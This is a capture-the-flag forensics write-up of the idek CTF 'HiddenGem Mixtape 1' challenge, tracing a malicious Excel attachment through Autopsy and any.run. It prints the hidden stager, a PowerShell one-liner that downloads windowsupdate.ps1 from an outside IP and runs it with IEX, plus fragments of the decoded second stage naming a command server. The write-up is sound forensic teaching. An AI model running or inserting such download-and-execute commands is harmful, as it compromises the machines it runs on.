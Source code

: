 +++
author = "dree"
title = "idek CTF 2022"
date = "2023-01-24"
tags = [
    "OSINT", "Forensics"
]
+++

*Was in 2023, not 2022 since event delayed. Great CTF with a lot of challenges from the team **idek** ¯\_(ツ)_/¯. My team WolvSec came in **17th** out of **846** teams. I will be going over my 2 Forensics solves and 5 OSINT. Currently just Forensics 1, I plan to add the rest later!

<!--more-->

# HiddenGem Mixtape 1: Initial Access
Authors: `Bquanman`  
Points: **478**  
Solves: **47**

### Challenge Description:
We're pretty sure there's been a hack into our system. The incident is suspected to be caused by an employee opening a document file received via email even though he deleted it shortly afterwards. We managed to do a logical acquisition of data from his hard drive. However, when we open the document file, it looks empty, can you analyze what it contains?


### Approach

We are given a `.vhdx` file, which contains a Windows Image. To open in Autopsy, I double clicked the file on my Windows machine and imported that disk image. The first thing that struck my eye when doing this was the email saved onto the machine.

{{< img src="autopsyemail.png" >}}

The email HTML gives us the password `Privacy4411@2023!!!`. This can be used to open the attachment in the email, which gives us a file `Policy.xlsx`. In this file my teammates and I tried to find anything meaningful, even performing stego on the image of Tommy Xiaomi but with no success. I noticed a weird line on page 3, which was hidden, but it did not show correct output on google sheets since the file was converted. However, `doubledelete` was able to view the line
```
CMD.EXE /c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://172.21.20.96/windowsupdate.ps1\");IEX $e
```
This can also be viewed on any.run when importing the file

{{< img src="anyrunoutput.png" >}}

This malicious command seems to have downloaded a file called `windowsupdate.ps1`. I searched this string in Autopsy, and found a command where a very long base64 string was downloaded from the Powershell logs. Decoding the b64 we an object that starts with:
```
(New-OBJECT MAnAGeMent.AUtOmaTiON.PsCreDEntIAL ' ', ('76492d111..)
```

We can run this into a powershell emulator to get the following output:

```
$bwqvRnHz99 = (104,116,116,112,115,58,47,47,112,97,115,116,101);
$bwqvRnHz99 += (98,105,110,46,99,111,109,47,104,86,67,69,85,75,49,66);
$flag = [System.Text.Encoding]::ASCII.GetString($bwqvRnHz99);
$s='172.21.20.96:8080';$i='eef8efac-321d465e-e9d053a7';
$p='http://';$v=Invoke-Web...
```

And there we see a `$flag` variable, signaling this is likely our flag. Running just that and printing we get a pastebin:

{{< img src="tiooutput.png" >}}

And we get the flag! As well as the resource: https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within

flag: `sdctf{morning_noon_and_night_I_meme}`
